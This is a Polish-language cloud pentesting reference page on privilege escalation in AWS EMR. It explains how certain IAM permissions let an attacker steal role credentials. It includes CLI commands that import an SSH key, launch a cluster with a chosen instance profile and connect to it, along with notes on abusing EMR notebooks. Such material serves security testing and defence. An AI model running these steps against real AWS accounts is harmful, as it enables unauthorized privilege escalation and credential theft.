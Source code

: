 # AWS - EMR Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## EMR

Więcej **informacji o EMR** w:

{{#ref}}
../../aws-services/aws-emr-enum.md
{{#endref}}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Atakujący posiadający te uprawnienia może **uruchomić nowy klaster EMR z przypiętymi EC2 roles** i spróbować wykradać jego poświadczenia.\
Należy pamiętać, że aby to zrobić, trzeba **znać jakiś ssh priv key zaimportowany w koncie** lub zaimportować własny, oraz być w stanie **open port 22 in the master node** (może być to możliwe przy użyciu atrybutów `EmrManagedMasterSecurityGroup` i/lub `ServiceAccessSecurityGroup` wewnątrz `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Zwróć uwagę, że **EMR role** jest określona w `--service-role`, a **ec2 role** jest określona w `--ec2-attributes` wewnątrz `InstanceProfile`. Jednak ta technika pozwala jedynie na kradzież poświadczeń roli EC2 (ponieważ połączysz się przez ssh), a nie roli IAM EMR.

**Potential Impact:** Privesc do wskazanej roli serwisowej EC2.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Dzięki tym uprawnieniom atakujący może wejść do **AWS console**, utworzyć Notebook i uzyskać do niego dostęp, aby przejąć IAM Role.

> [!CAUTION]
> Nawet jeśli przypiszesz IAM role do instancji notebooka, w moich testach zauważyłem, że byłem w stanie ukraść AWS managed credentials, a nie poświadczenia związane z przypisaną IAM role.

**Potential Impact:** Privesc do AWS managed role arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Tylko z tym uprawnieniem atakujący będzie mógł uzyskać dostęp do **Jupyter Notebook i ukraść powiązaną z nim IAM role**.\
URL notebooka to `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

> [!CAUTION]
> Nawet jeśli przypiszesz IAM role do instancji notebooka, w moich testach zauważyłem, że byłem w stanie ukraść AWS managed credentials, a nie poświadczenia związane z przypisaną IAM role.

**Potential Impact:** Privesc do AWS managed role arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{{#include ../../../../banners/hacktricks-training.md}}
